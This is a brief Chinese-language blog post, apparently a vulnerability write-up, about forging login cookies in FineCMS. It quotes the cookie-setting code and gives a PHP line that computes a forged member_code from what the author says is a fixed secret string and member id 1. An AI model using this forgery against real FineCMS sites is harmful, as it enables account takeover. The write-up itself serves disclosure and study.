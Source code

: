 ```yaml
---
layout: post
title:  "Finecms Cookie Forged"
date:   2017-03-13 15:04:55
comments: true
categories: php bug
---
```

位置39行
{% highlight text %}
/controllers/member/LoginController.php
{% endhighlight %}

看上去很容易被伪造只要知道 SITE_MEMBER_COOKIE 就行了

cookie表前缀+字符串 ，我通过github搜索发现字符串并不是随机生成的而是固定的值

{% highlight php %}

                  set_cookie('member_id', $member['id'], $time);

                    set_cookie('member_code', substr(md5(SITE_MEMBER_COOKIE . $member['id']), 5, 20), $time);


}

{% endhighlight %}

伪造cookie

{% highlight php %}


$hash = substr(md5("2967e68d382902a"."1"), 5, 20);

echo $hash;


}




